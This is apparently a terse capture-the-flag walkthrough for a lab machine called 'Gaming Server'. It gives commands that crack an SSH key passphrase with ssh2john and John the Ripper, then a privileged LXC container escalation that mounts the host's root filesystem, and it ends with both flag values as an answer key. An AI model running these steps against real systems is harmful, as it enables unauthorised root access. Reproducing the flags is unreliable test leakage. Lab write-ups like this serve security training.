 # Gaming Server-Id rsa expose&lxc privilege escalation

```
export IP=10.10.17.242
```

# Material needed

1. Interesting directory: /secret

2. Passphrase key

```
python /opt/ssh2john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/root/Documents/wordlist/rockyou.txt id_rsa.hash
```

3. Privilege escalation

```
lxc image list
lxc image import ./alpine-v3.13-x86_64-20210606_0356.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

# Tasks

1. What is the user flag?

```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

2. What is the root flag?

```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```